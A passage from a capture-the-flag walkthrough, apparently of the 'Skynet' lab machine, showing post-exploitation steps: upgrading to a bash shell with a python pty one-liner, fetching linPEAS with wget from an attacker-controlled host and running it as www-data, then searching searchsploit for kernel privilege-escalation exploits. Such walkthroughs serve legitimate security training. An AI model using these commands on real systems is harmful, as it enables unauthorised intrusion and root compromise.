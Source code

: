 Upgrade to a proper shell:

```text
$ python -c 'import pty;pty.spawn("/bin/bash")'
```

If we haven't already got the flag from the user.txt file we can get that now by going to /home/milesdyson.

Next step is to find our way to the root flag. For CTFs there are a few things to always check, as these are often your way forward. There are lots of great cheatsheets out there to help, [this](https://github.com/Shiva108/CTF-notes/blob/master/Notes%20VA/Local%20Linux%20Enumeration%20n%20Privilege%20Escalation%20Cheatsheet%20.txt) is one that's proved useful. In most circumstances it's quicker to use something like [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) which does all the hard work for you:

```text
www-data@skynet:/tmp$ wget http://10.14.6.200:8000/linpeas.sh
wget http://10.14.6.200:8000/linpeas.sh
--2021-02-16 17:02:28--  http://10.14.6.200:8000/linpeas.sh
Connecting to 10.14.6.200:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 320037 (313K) [text/x-sh]
Saving to: 'linpeas.sh'
linpeas.sh        100%[===================>] 312.54K  1.48MB/s    in 0.2s
2021-02-16 17:02:28 (1.48 MB/s) - 'linpeas.sh' saved [320037/320037]

www-data@skynet:/tmp$ bash linpeas.sh
```

The first line gives us a possible path, the kernel version is 4.8.0-58, which linPEAS colours in red to indicate this is something to look at:

```text
==========================( Basic information )=============================
OS: Linux version 4.8.0-58-generic (buildd@lgw01-21) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017
```

## Privilege Escalation

Let's try SearchSploit first:

```text
kali@kali:~$ searchsploit kernel 4.8.0-58
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free  | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation            | linux/local/41886.c
<SNIP>
Linux Kernel < 4.17-rc1 - 'AF_LLC' Double Free                        | linux/dos/44579.c
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)   | linux/local/43418.c
---------------------------------------------------------------------- ---------------------------------
```
